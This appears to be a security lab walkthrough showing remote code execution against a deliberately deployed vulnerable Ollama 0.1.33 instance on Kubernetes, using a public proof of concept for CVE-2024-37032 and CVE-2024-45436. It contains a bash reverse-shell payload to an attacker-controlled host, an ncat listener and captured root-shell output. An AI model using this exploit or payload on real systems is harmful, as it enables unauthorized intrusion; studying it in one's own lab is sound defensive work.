

[Ollama](https://ollama.com/) has become a popular tool for running large
language models locally. However, like any software, it can have
vulnerabilities. This post provides a technical deep dive into two critical
vulnerabilities: [CVE-2024-37032](https://nvd.nist.gov/vuln/detail/cve-2024-37032)
and [CVE-2024-45436](https://nvd.nist.gov/vuln/detail/CVE-2024-45436). These
vulnerabilities allow for remote code execution (RCE) in older versions of
Ollama.

<!-- prettier-ignore-start -->
> This demonstration is for educational purposes only.
{: .prompt-info }
<!-- prettier-ignore-end -->

We will walk through a step-by-step demonstration of how an attacker could
exploit these vulnerabilities in an Ollama instance running in a Kubernetes
cluster. Understanding these attack vectors is crucial for building robust
security postures.

📚 References:

- [CVE-2024-37032 Detail](https://nvd.nist.gov/vuln/detail/cve-2024-37032)
- [CVE-2024-37032 & CVE-2024-45436 Ollama RCE](https://github.com/pankass/CVE-2024-37032_CVE-2024-45436)

🗺️ Architecture Diagram:



## Prerequisites

Before we begin, ensure you have the following tools installed and configured:

- [AWS CLI](https://aws.amazon.com/cli/) with appropriate permissions to create
  resources.
- [rain](https://github.com/aws-cloudformation/rain): A delightful CLI for AWS
  CloudFormation.
- [helm](https://helm.sh/docs/intro/install/): The package manager for
  Kubernetes.

## Environment Setup

The following variables are used in the subsequent steps:

```bash
# AWS Region
export AWS_REGION="${AWS_REGION:-us-east-1}"
# Hostname / FQDN definitions
export AWS_EC2_KEY_PAIR_NAME="ollama-test"
export CLUSTER_FQDN="${CLUSTER_FQDN:-k01.k8s.mylabs.dev}"
# Base Domain: k8s.mylabs.dev
export BASE_DOMAIN="${CLUSTER_FQDN#*.}"
# Cluster Name: k01
export CLUSTER_NAME="${CLUSTER_FQDN%%.*}"
export SOLUTION_KALI="KaliLinux-NICE-DCV"
export TMP_DIR="${TMP_DIR:-${PWD}}"
export KUBECONFIG="${KUBECONFIG:-${TMP_DIR}/${CLUSTER_FQDN}/kubeconfig-${CLUSTER_NAME}.conf}"
# Tags used to tag the AWS resources
export TAGS="${TAGS:-Owner=${MY_EMAIL},Environment=dev,Cluster=${CLUSTER_FQDN}}"
mkdir -pv "${TMP_DIR}/${CLUSTER_FQDN}"
```

## AWS EC2 instance with Kali Linux

Launch an AWS EC2 instance with [Kali Linux](https://www.kali.org/) using a
[CloudFormation template](https://github.com/aws-samples/amazon-ec2-nice-dcv-samples/blob/main/cfn/KaliLinux-NICE-DCV.yaml).

```bash
# Download the CloudFormation templates
# renovate: currentValue=master
wget --continue -q -P "${TMP_DIR}" https://raw.githubusercontent.com/aws-samples/aws-codebuild-samples/00284b828a360aa89ac635a44d84c5a748af03d3/ci_tools/vpc_cloudformation_template.yml
# renovate:
wget --continue -q -P "${TMP_DIR}" https://raw.githubusercontent.com/aws-samples/amazon-ec2-nice-dcv-samples/2a0cddbdf9bf15dce3faaaf33dc499e52db7423c/cfn/KaliLinux-NICE-DCV.yaml

# Create a new AWS EC2 Key Pair to be used for the EC2 instance
aws ec2 create-key-pair --key-name "${AWS_EC2_KEY_PAIR_NAME}" --key-type ed25519 --query "KeyMaterial" --output text > "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem"
chmod 600 "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem"

# Deploy the VPC CloudFormation stack for the Kali Linux environment
rain deploy --yes "${TMP_DIR}/vpc_cloudformation_template.yml" "${SOLUTION_KALI}-VPC" \
  --params "EnvironmentName=${SOLUTION_KALI}" \
  --tags "Owner=${USER},Environment=dev,Solution=${SOLUTION_KALI}"

# Extract VPC and Subnet IDs from the CloudFormation stack outputs
AWS_CLOUDFORMATION_DETAILS=$(aws cloudformation describe-stacks --stack-name "${SOLUTION_KALI}-VPC" --query "Stacks[0].Outputs[? OutputKey==\`PublicSubnet1\` || OutputKey==\`VPC\`].{OutputKey:OutputKey,OutputValue:OutputValue}")
AWS_VPC_ID=$(echo "${AWS_CLOUDFORMATION_DETAILS}" | jq -r ".[] | select(.OutputKey==\"VPC\") .OutputValue")
AWS_SUBNET_ID=$(echo "${AWS_CLOUDFORMATION_DETAILS}" | jq -r ".[] | select(.OutputKey==\"PublicSubnet1\") .OutputValue")

# Deploy the Kali Linux EC2 instance using the CloudFormation template
rain deploy --yes --node-style original "${TMP_DIR}/KaliLinux-NICE-DCV.yaml" "${SOLUTION_KALI}" \
  --params "ec2KeyPair=${AWS_EC2_KEY_PAIR_NAME},vpcID=${AWS_VPC_ID},subnetID=${AWS_SUBNET_ID},ec2TerminationProtection=No,allowWebServerPorts=HTTP-and-HTTPS" \
  --tags "Owner=${USER},Environment=dev,Solution=${SOLUTION_KALI}"
```

Configure SSH access to the Kali Linux instance:

```bash
AWS_EC2_KALI_PUBLIC_IP=$(aws ec2 describe-instances --filters "Name=tag:Solution,Values=${SOLUTION_KALI}" --query "Reservations[].Instances[].PublicIpAddress" --output text)
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_PUBLIC_IP}" 'curl -Ls https://github.com/ruzickap.keys >> ~/.ssh/authorized_keys'
```

## Enabling Karpenter to Provision amd64 Node Pools

To enable Karpenter to provision an amd64 node pool, create a new NodePool
resource as shown below:

```bash
tee "${TMP_DIR}/${CLUSTER_FQDN}/k8s-karpenter-nodepool-amd64.yml" << EOF | kubectl apply -f -
apiVersion: karpenter.sh/v1
kind: NodePool
metadata:
  name: my-default-amd64
spec:
  template:
    spec:
      nodeClassRef:
        group: eks.amazonaws.com
        kind: NodeClass
        name: my-default
      requirements:
        - key: kubernetes.io/arch
          operator: In
          values: ["amd64"]
  limits:
    cpu: 2
    memory: 4Gi
EOF
```

## Deploying Vulnerable Ollama Instance

Install the `ollama` [Helm chart](https://github.com/otwld/ollama-helm/tree/ollama-1.23.0)
and modify its [default values](https://github.com/otwld/ollama-helm/blob/ollama-1.23.0/values.yaml)
to deploy a vulnerable version (`0.1.33`):

```bash
OLLAMA_HELM_CHART_VERSION="1.23.0"

helm repo add otwld https://helm.otwld.com/
tee "${TMP_DIR}/${CLUSTER_FQDN}/helm_values-ollama.yml" << EOF
image:
  tag: 0.1.33
ingress:
  enabled: true
  hosts:
    - host: ollama-vulnerable.${CLUSTER_FQDN}
      paths:
        - path: /
          pathType: Prefix
  tls:
    - hosts:
        - ollama-vulnerable.${CLUSTER_FQDN}
nodeSelector:
  kubernetes.io/arch: amd64
EOF
helm upgrade --install --version "${OLLAMA_HELM_CHART_VERSION}" --namespace ollama --create-namespace --wait --values "${TMP_DIR}/${CLUSTER_FQDN}/helm_values-ollama.yml" ollama otwld/ollama
```

## Exploit Execution

Now, let's execute the exploit from the Kali Linux instance.

```bash
AWS_EC2_KALI_PUBLIC_IP=$(aws ec2 describe-instances --filters "Name=tag:Solution,Values=${SOLUTION_KALI}" --query "Reservations[].Instances[].PublicIpAddress" --output text)
# shellcheck disable=SC2087
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_PUBLIC_IP}" << EOF
set -euxo pipefail

# Install dependencies
sudo apt update -qq && sudo apt install -qqy golang-go ncat

# Run ncat
echo -e "pwd \n ps -elf \n whoami" | sudo ncat -lnvp 80 --idle-timeout 5 --output /tmp/ncat.log &

# Clone the exploit repository
git clone https://github.com/pankass/CVE-2024-37032_CVE-2024-45436.git
cd CVE-2024-37032_CVE-2024-45436 || exit

# Run the exploit
# The target is our vulnerable Ollama service.
# The -exec payload will create a reverse shell back to our Kali instance.
go run main.go -target "https://ollama-vulnerable.${CLUSTER_FQDN}" -exec "bash -i >& /dev/tcp/${AWS_EC2_KALI_PUBLIC_IP}/80 0>&1"
EOF
```

```console
...
...
Vulnerability does exist!!!
http log:
http log: {"status":"unpacking model metadata"}
{"error":"couldn't determine model format"}

pulling model, please wait......
http log: {"status":"pulling manifest"}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":4161536}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":8585216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":10043392}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":15138816}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":19005440}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":23265280}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":26275840}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":28880896}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":33161216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":37093376}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":43012096}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling 797b70c4edf8","digest":"sha256:797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662","total":45949216,"completed":45949216}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling c71d239df917","digest":"sha256:c71d239df91726fc519c6eb72d318ec65820627232b2f796219e87dcf35d0ab4","total":11357,"completed":11357}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 85011998c600","digest":"sha256:85011998c600549934d2b696d7f0cb5078192b56f6c954f6987bf9228870017e","total":16,"completed":16}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"pulling 548455b72658","digest":"sha256:548455b7265836afeea130cfc8919fa3311af2a55b9fec3cbd04e811bb600ee8","total":407,"completed":407}
{"status":"verifying sha256 digest"}
{"status":"writing manifest"}
{"status":"removing any unused layers"}
{"status":"success"}
...
...
```

Review the results of the commands executed on the compromised container, as
captured by ncat:

```bash
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_PUBLIC_IP}" "cat /tmp/ncat.log"
```

```console
pwd
 ps -elf
 whoami
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@ollama-647f4bd9b6-2nzvm:/# pwd
/
root@ollama-647f4bd9b6-2nzvm:/#  ps -elf
F S UID          PID    PPID  C PRI  NI ADDR SZ WCHAN  STIME TTY          TIME CMD
4 S root           1       0  7  80   0 - 512099 futex_ 15:51 ?       00:00:06 /bin/ollama serve
0 S root          14       1  0  80   0 -  2501 do_wai 15:52 ?        00:00:00 /tmp/ollama2637438906/runners/cpu_avx2/ollama_llama_server --model /root/.ollama/models/blobs/sha256-797b70c4edf85907fe0a49eb85811256f65fa0f7bf52166b147fd16be2be4662 --ctx-size 256 --batch-size 512 --embedding --log-disable --parallel 1 --port 42595
4 S root          15      14  0  80   0 -   723 do_wai 15:52 ?        00:00:00 sh -c bash -c 'bash -i >& /dev/tcp/50.16.37.101/80 0>&1'
4 S root          16      15  0  80   0 -  1091 do_wai 15:52 ?        00:00:00 bash -c bash -i >& /dev/tcp/50.16.37.101/80 0>&1
4 S root          17      16  0  80   0 -  1157 do_wai 15:52 ?        00:00:00 bash -i
4 R root          20      17  0  80   0 -  1766 -      15:52 ?        00:00:00 ps -elf
root@ollama-647f4bd9b6-2nzvm:/#  whoami
root
root@ollama-647f4bd9b6-2nzvm:/# exit
```

View Ollama Pod Logs:

```bash
kubectl logs -n ollama "$(kubectl get pods -n ollama -o jsonpath='{.items[0].metadata.name}')"
```

```console
Couldn't find '/root/.ollama/id_ed25519'. Generating new private key.
Your new public key is:

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKPJt8RLcfSPdRn0b1uWMsLOVoJHq+o761pxK56ehTdn

time=2025-07-11T15:51:36.369Z level=INFO source=images.go:828 msg="total blobs: 0"
time=2025-07-11T15:51:36.369Z level=INFO source=images.go:835 msg="total unused blobs removed: 0"
time=2025-07-11T15:51:36.370Z level=INFO source=routes.go:1071 msg="Listening on [::]:11434 (version 0.1.33)"
llm_load_print_meta: model type       = 22M
llm_load_print_meta: model ftype      = F16
llm_load_print_meta: model params     = 22.57 M
llm_load_print_meta: model size       = 43.10 MiB (16.02 BPW)
llm_load_print_meta: general.name     = all-MiniLM-L6-v2
llm_load_print_meta: BOS token        = 101 '[CLS]'
llm_load_print_meta: EOS token        = 102 '[SEP]'
llm_load_print_meta: UNK token        = 100 '[UNK]'
llm_load_print_meta: SEP token        = 102 '[SEP]'
llm_load_print_meta: PAD token        = 0 '[PAD]'
llm_load_print_meta: CLS token        = 101 '[CLS]'
llm_load_print_meta: MASK token       = 103 '[MASK]'
llm_load_print_meta: LF token         = 0 '[PAD]'
llm_load_tensors: ggml ctx size =    0.05 MiB
llm_load_tensors:        CPU buffer size =    43.10 MiB
...............................
llama_new_context_with_model: n_ctx      = 256
llama_new_context_with_model: n_batch    = 512
llama_new_context_with_model: n_ubatch   = 512
llama_new_context_with_model: freq_base  = 10000.0
llama_new_context_with_model: freq_scale = 1
llama_kv_cache_init:        CPU KV buffer size =     2.25 MiB
llama_new_context_with_model: KV self size  =    2.25 MiB, K (f16):    1.12 MiB, V (f16):    1.12 MiB
llama_new_context_with_model:        CPU  output buffer size =     0.00 MiB
llama_new_context_with_model:        CPU compute buffer size =     5.00 MiB
llama_new_context_with_model: graph nodes  = 221
llama_new_context_with_model: graph splits = 1
{"function":"initialize","level":"INFO","line":448,"msg":"initializing slots","n_slots":1,"tid":"139831842998144","timestamp":1752249176}
{"function":"initialize","level":"INFO","line":457,"msg":"new slot","n_ctx_slot":256,"slot_id":0,"tid":"139831842998144","timestamp":1752249176}
{"function":"main","level":"INFO","line":3067,"msg":"model loaded","tid":"139831842998144","timestamp":1752249176}
{"function":"main","hostname":"127.0.0.1","level":"INFO","line":3270,"msg":"HTTP server listening","n_threads_http":"3","port":"42595","tid":"139831842998144","timestamp":1752249176}
{"function":"update_slots","level":"INFO","line":1581,"msg":"all slots are idle and system prompt is empty, clear the KV cache","tid":"139831842998144","timestamp":1752249176}
{"function":"process_single_task","level":"INFO","line":1509,"msg":"slot data","n_idle_slots":1,"n_processing_slots":0,"task_id":0,"tid":"139831842998144","timestamp":1752249176}
{"function":"log_server_request","level":"INFO","line":2737,"method":"GET","msg":"request","params":{},"path":"/health","remote_addr":"127.0.0.1","remote_port":45762,"status":200,"tid":"139831757436480","timestamp":1752249176}
[GIN] 2025/07/11 - 15:52:56 | 200 |  256.889485ms |    50.16.37.101 | POST     "/api/embeddings"
[GIN] 2025/07/11 - 15:52:58 | 200 |      19.515µs |  192.168.95.252 | GET      "/"
```

🕹️ Recorded screen cast:



## Conclusion

This walkthrough demonstrated that CVE-2024-37032 and CVE-2024-45436 are
critical vulnerabilities that can lead to a full container compromise with
relative ease. While we used a specific public PoC, the underlying
vulnerability could be exploited in various ways.

## Cleanup

Delete the Kali Linux EC2 instance, EC2 Key Pair, and related CloudFormation
stack:

```sh
export AWS_REGION="${AWS_REGION:-us-east-1}"
export AWS_EC2_KEY_PAIR_NAME="ollama-test"
export SOLUTION_KALI="KaliLinux-NICE-DCV"
export CLUSTER_FQDN="${CLUSTER_FQDN:-k01.k8s.mylabs.dev}"
export CLUSTER_NAME="${CLUSTER_FQDN%%.*}"
export TMP_DIR="${TMP_DIR:-${PWD}}"
export KUBECONFIG="${KUBECONFIG:-${TMP_DIR}/${CLUSTER_FQDN}/kubeconfig-${CLUSTER_NAME}.conf}"

# Delete CloudFormation stack
aws cloudformation delete-stack --stack-name "${SOLUTION_KALI}"

# Delete EKS cluster if exists
if eksctl get cluster --name="${CLUSTER_NAME}"; then
  eksctl delete cluster --name="${CLUSTER_NAME}" --force
fi

# Delete VPC stack and EC2 key pair
aws cloudformation delete-stack --stack-name "${SOLUTION_KALI}-VPC"
aws ec2 delete-key-pair --key-name "${AWS_EC2_KEY_PAIR_NAME}"

# Remove local files
for FILE in ${TMP_DIR}/{vpc_cloudformation_template.yml,KaliLinux-NICE-DCV.yaml,${AWS_EC2_KEY_PAIR_NAME}.pem,helm_values-ollama.yml,kubeconfig-${CLUSTER_NAME}.conf}; do
  if [[ -f "${FILE}" ]]; then
    rm -v "${FILE}"
  else
    echo "*** File not found: ${FILE}"
  fi
done
```

Enjoy ... 😉
